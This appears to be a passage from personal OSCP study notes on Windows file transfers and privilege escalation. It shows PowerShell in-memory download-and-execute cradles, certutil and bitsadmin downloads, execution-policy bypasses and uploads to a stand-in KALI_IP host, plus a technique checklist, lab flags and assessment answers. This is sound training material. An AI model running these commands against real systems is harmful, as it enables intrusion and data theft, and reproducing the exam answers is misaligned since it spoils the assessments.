(New-Object System.Net.WebClient).DownloadFile('http://KALI_IP/file.exe', 'C:\Users\user\file.exe')

# In-memory execution cradle (no file written to disk)
IEX (New-Object System.Net.WebClient).DownloadString('http://KALI_IP/script.ps1')
(New-Object System.Net.WebClient).DownloadString('http://KALI_IP/script.ps1') | IEX
```

| Method | Writes to disk? | Use case |
|--------|----------------|----------|
| `iwr / DownloadFile` | Yes | Executables, binaries |
| `DownloadString + IEX` | No | PowerShell scripts -- bypasses some AV |

```cmd
:: certutil -- built-in, works without PowerShell
certutil -urlcache -split -f http://KALI_IP/file.exe file.exe

:: bitsadmin -- BITS, survives reboots, throttleable
bitsadmin /transfer job /download /priority normal http://KALI_IP/file.exe C:\path\file.exe
```

```powershell
# Start-BitsTransfer -- PowerShell BITS wrapper
Start-BitsTransfer -Source http://KALI_IP/file.exe -Destination C:\path\file.exe

# Expand-Archive -- unzip without WinZip/7-Zip
Expand-Archive .\archive.zip -DestinationPath C:\target\dir -Force
```

> 🔍 **Worth remembering generally:** PowerShell execution policy blocks `.ps1` execution. Before running a downloaded script:
> ```powershell
> Set-ExecutionPolicy Bypass -Scope Process   # temporary, this session
> powershell -ep bypass -File .\script.ps1    # one-shot bypass
> ```

### 17.5.3. Windows Upload Methods

```bash
# On Kali: set up uploadserver for receiving POST uploads
pip3 install uploadserver
python3 -m uploadserver 8080
```

```powershell
# From Windows: upload via REST
Invoke-RestMethod -Uri http://KALI_IP:8080/upload -Method POST -InFile C:\path\file.txt
iwr -Uri http://KALI_IP:8080/upload -Method POST -InFile C:\path\file.txt
```

```powershell
# evil-winrm built-in (when WinRM is the access method)
upload /home/kali/file.exe C:\Users\user\file.exe
download C:\Users\user\flag.txt /home/kali/flag.txt
```

### 17.5.4. File Transfer Decision Tree



**Skills Assessment Answers (FT.8 Windows slice):**

| Task | Answer |
|---|---|
| Download flag.txt via WebClient from web root | **b1a4ca918282fcd96004565521944a3b** |
| Upload zip, Expand-Archive, run hasher.exe on txt | **f458303ea783c224c6b4e7ef7f17eb9d** |

**Windows upload chain:** `python3 -m http.server 8080` on Kali → `iwr http://KALI:8080/upload_win.zip -OutFile upload_win.zip` → `Expand-Archive .\upload_win.zip` → `hasher.exe .\upload_win\upload_win.txt`

#### Tags: #FileTransfers #Windows #iwr #WebClient #certutil #bitsadmin #BitsTransfer #ExpandArchive #uploadserver #evilwinrm #Module17

---

## **Outstanding Sections**

- [x] **17.1.1 Understanding Windows Privileges and Access Control Mechanisms:** done (SID anatomy, access token primary vs impersonation, MIC integrity levels, UAC dual-token model, architecture diagram, quiz answers)
- [x] **17.1.2 Situational Awareness:** done (7-item checklist, all commands, service enumeration via CimInstance, notes on RDP-vs-WinRM limitation)
- [x] **17.1.3 Hidden in Plain View:** done (search commands, dave→steve→backupadmin chain diagram, Runas/WinRM/schtask alternatives; VM#1 flag OS{b67353ae86bde2f8d1844c7288fa58af}, VM#2 flag OS{d34310dc18bf3ccbb9ee6736d28e4dfc})
- [x] **17.1.4 Information Goldmine PowerShell:** done (PSReadline vs Clear-History distinction, transcript files, Script Block Logging, PSCredential extraction, evil-winrm connection; VM#1 flag OS{24476ccf8a8b02789587efeaaff171ec}, VM#2 flag OS{17c49c88efb309356ac36871cf778957})
- [x] **17.1.5 Automated Enumeration:** done (winPEAS, PowerUp, Seatbelt coverage, limitations noted)
- [x] **17.2.1 Service Binary Hijacking:** done (icacls masks, adduser.c, mingw compile, reboot approach, PowerUp AbuseFunction and its known bug)
- [x] **17.2.2 DLL Hijacking:** done (DLL search order diagram, Process Monitor workflow, DllMain template, missing DLL detection, --shared compile)
- [x] **17.2.3 Unquoted Service Paths:** done (path resolution sequence diagram, wmic command, icacls check, PowerUp Get-UnquotedService + Write-ServiceBinary; VM#1 flag OS{0b3c0403ab9fc3ba56de4bea2fcd8634}. SYSTEM via steve's explicit SDDL start rights + UAC token filtering lesson; VM#2 flag OS{ec55ff1679fdca9cd15a087e725dd394}, shell as roy)
- [x] **17.3.1 Scheduled Tasks:** done (three key questions, schtasks enumeration, binary replacement attack, timing considerations)
- [x] **17.1.2.1 AppLocker Enumeration:** done (Get-AppLockerPolicy, path-based block bypass, WPE.1 Q&A)
- [x] **17.1.2.2 Session and User Awareness:** done (query user, session types, arp -a, WPE.1 Q&A)
- [x] **17.1.3.1 findstr Credential Hunting:** done (recursive search, reg query, unattend.xml, WPE.16 Q&A)
- [x] **17.1.3.2 Encrypted PowerShell Credentials:** done (Import-Clixml + DPAPI, WPE.16 Q&A)
- [x] **17.1.3.3 Sticky Notes plum.sqlite:** done (PSSQLite module, Invoke-SqliteQuery, WPE.17 Q&A)
- [x] **17.2.1.1 SharpUp Audit:** done (Modifiable Services vs Binaries, WPE.13 full chain, Q&A)
- [x] **17.3.2.1 Named Pipe ACL Check:** done (accesschk, netstat PID lookup, WPE.3 Q&A)
- [x] **17.3.2.2 SeImpersonate via MSSQL + PrintSpoofer:** done (full chain, WPE.4 Q&A)
- [x] **17.3.2.3 SeBackupPrivilege PS Module:** done (SeBackupPrivilegeCmdlets.dll method, WPE.7 Q&A)
- [x] **17.3.2.4 HiveNightmare CVE-2021-36934:** done (passive SAM read, PtH chain, CVE table, WPE.14 Q&A)
- [x] **17.3.2.5 Old OS Kernel Exploits:** done (Sherlock, windows-exploit-suggester, MS10-092 via MSF, MS16-032 via PS, WPE.23-24 Q&A)
- [x] **17.3.2 Using Exploits:** done (three exploit categories, CVE-2023-29360 workflow, SeImpersonatePrivilege + named pipes architecture, SigmaPotato usage, Potato family overview; Capstone CLIENTWK222 flag OS{55a5eb25425fe0875c37038779dc8077} -- CVE-2023-28252 CLFS from diana's nc shell, DLL planted but no restart trigger found)
- [x] **17.3.3 Built-in Group Privilege Abuse:** done (SeDebug+ProcDump, SeTakeOwnership+icacls, Event Log Readers+wevtutil, DnsAdmins+dnscmd, Print Operators+Capcom.sys, Server Operators+binPath, all WPE.5-11 Q&A)
- [x] **17.3.4 UAC Bypass:** done (Bypass-UAC UacMethodSysprep, fodhelper registry hijack, WPE.12 Q&A)
- [x] **17.3.5 Vulnerable Third-Party Services:** done (Druva inSync port 6064, SCF file attack, WPE.15+20 Q&A)
- [x] **17.3.6 Credential Theft and Pillaging:** done (LaZagne, SharpChrome, SessionGopher, mRemoteNG decrypt, Firefox cookie theft, Restic SAM extraction, miscellaneous, WPE.18-22 Q&A)
- [x] **17.3.7 Citrix Breakout:** done (Paint Open dialog UNC, PowerUp MSI + UAC bypass admin escalation, WPE.19 Q&A)
- [x] **17.3.8 Skills Assessment Walkthroughs:** done (Part I PrintNightmare chain, Part II AlwaysInstallElevated+PwDump8, all WPE.25-26 Q&A)
- [x] **17.4 Wrapping Up:** done (full decision flowchart, external resources, related boxes)
- [x] **17.5 File Transfers (Windows):** done (FT.1 Kali HTTP server, FT.2 Windows download methods, FT.3 Windows upload methods, FT.7 decision tree, FT.8 Windows skills assessment answers)

**Module 17 complete. All core Offsec labs done. HTB supplementary content (Windows PrivEsc + File Transfers Windows slice) fully interleaved. Hub-doc sync is a separate later phase.**
## External Resources

- [HackTricks - Pentesting Index](https://hacktricks.wiki/en/index.html)
- [PayloadsAllTheThings - Methodology and Resources](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources)
- [GTFOBins](https://gtfobins.github.io/) for Unix binary abuse where applicable
- [RevShells](https://www.revshells.com/) for shell payloads where applicable
- [CyberChef](https://gchq.github.io/CyberChef/) for encoding and decoding
- [ippsec.rocks](https://ippsec.rocks/) for practical walkthrough searches
## RUNBOOK V2 Stages

- [[RUNBOOK V2/Windows - Service Scan]]
- [[RUNBOOK V2/Windows - SMB Enum]]
- [[RUNBOOK V2/Windows - Privilege Triage]]

## Hub Docs

- [[METHODOLOGY CHEAT SHEET/METHODOLOGY CHEAT SHEET]]
- [[COMMAND APPENDIX/COMMAND APPENDIX]]
- [[DECISION TREE/DECISION TREE]]
- [[COMMAND BREAKDOWNS/COMMAND BREAKDOWNS]]

## Related Boxes

- [[OSCP/BOXES/WRITE UPS/Windows/Jerry|Jerry]] -- Windows service and web foothold
- [[OSCP/BOXES/WRITE UPS/Windows/MarkUp|MarkUp]] -- Windows privilege escalation
- [[OSCP/BOXES/WRITE UPS/Windows/Servmon|Servmon]] -- service and token abuse
## Why this matters for OSCP

This page matters because it turns a repeatable assessment task into a clear, reviewable habit for the OSCP exam.
